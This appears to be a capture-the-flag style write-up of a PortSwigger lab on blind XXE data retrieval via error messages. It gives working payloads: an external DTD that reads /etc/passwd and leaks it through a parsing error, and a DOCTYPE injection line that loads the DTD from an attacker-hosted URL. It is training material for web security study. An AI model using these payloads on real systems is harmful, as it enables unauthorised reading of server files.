

## Exploiting blind XXE to retrieve data via error messages

**Title:** Exploiting blind XXE to retrieve data via error messages. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)

**Description:** This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file. The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

## Preface

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the `/etc/passwd` file.

- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.

- Uses the `eval` entity, which causes the dynamic declaration of the error entity to be performed.

- Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

Invoking the malicious external DTD will result in an error message like the following:

``` Java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My Thought

After going to the exploit server and we stored the following malicious DTD file on our server:

``` XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

When imported, this page will read the contents of `/etc/passwd` into the file entity, and then try to use that entity in a file path. We clickd "View exploit" to take a note of the URL for our malicious DTD file. We need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. We visited a product page and clicked "Check stock", and intercepted the resulting POST request in Burp Suite. After inserting the following external entity definition in between the XML declaration and the stockCheck element: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>` we should see an error message containing the contents of the `/etc/passwd` file.





